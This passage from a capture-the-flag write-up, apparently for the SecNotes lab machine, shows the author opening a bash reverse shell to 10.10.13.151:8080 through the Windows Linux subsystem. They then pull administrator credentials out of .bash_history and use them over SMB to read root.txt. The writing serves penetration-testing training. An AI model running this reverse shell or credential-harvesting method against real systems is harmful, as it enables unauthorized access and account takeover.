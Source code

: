 Now seeing I was root I didn't want to enumerate the whole subfilesystem with that command, so I decided to make yet another reverse shell. I ran the following command and listened with netcat on the same port.

```console
.\bash.exe -c "bash -i >& /dev/tcp/10.10.13.151/8080 0>&1"
```

*Successful reverse shell to linux subfilesystem*

![Img](/assets/posts_details/Secnotes/images/linux1.png "Img")

I looked at the contents of ``.bash_history`` and they turned out to be the key to everything, for there were some credentials:

```console
root@SECNOTES:~# cat .bash_history
cat .bash_history
cd /mnt/c/
ls
cd Users/
cd /
cd ~
ls
pwd
mkdir filesystem
mount //127.0.0.1/c$ filesystem/
sudo apt install cifs-utils
mount //127.0.0.1/c$ filesystem/
mount //127.0.0.1/c$ filesystem/ -o user=administrator
cat /proc/filesystems
sudo modprobe cifs
smbclient
apt install smbclient
smbclient
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
> .bash_history
less .bash_history
```

With these credentials we can access the other directories through SMB!

I used ``administrator:u6!4ZwgwOM#^OBf#Nwnh`` and got in to the ``C$`` directory. From there I just needed to go to ``\Users\Administrator\root.txt`` to get the hash.
